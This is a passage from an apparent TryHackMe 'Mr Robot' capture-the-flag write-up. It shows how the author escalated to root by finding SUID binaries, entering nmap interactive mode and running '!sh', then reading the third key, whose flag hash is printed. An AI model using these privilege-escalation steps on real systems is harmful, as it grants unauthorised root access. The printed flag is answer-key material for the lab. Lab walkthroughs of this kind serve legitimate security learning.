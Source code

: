 ![GTFO bins nmap/SUID](THM-writeups/MrRobot/resources/gtfo_nmap_suid.gif)

Unfortunately, this method didn't work for me. I could have tried a few more times to troubleshoot the issue, but feeling frustrated, I decided to do some further research. That's when I stumbled upon a particularly helpful blog: https://www.adamcouch.co.uk/linux-privilege-escalation-setuid-nmap/

#### Nmap SUID Privilege Escalation

Find nmap with SUID bit set:

```bash
find / -user root -perm -4000 -exec ls -la {} \;
```

Entered nmap interactive mode:

```bash
nmap --interactive
```

Executed shell commands as root:

```bash
nmap> !sh
# id
uid=1002(robot) gid=1002(robot) euid=0(root) groups=0(root),1002(robot)
```

## Obtaining Third Key

After gaining root privileges I navigated to the /root directory and found `firstboot_done` and `key-3-of-3.txt`:
The `firstboot_done` is a 0kb file. Sort of a congratulations for getting here I suppose : )
You can cat the .txt file for the third key.

**Third key:**
```plaintext
04787ddef27c3dee1ee161b21670b4e4
```
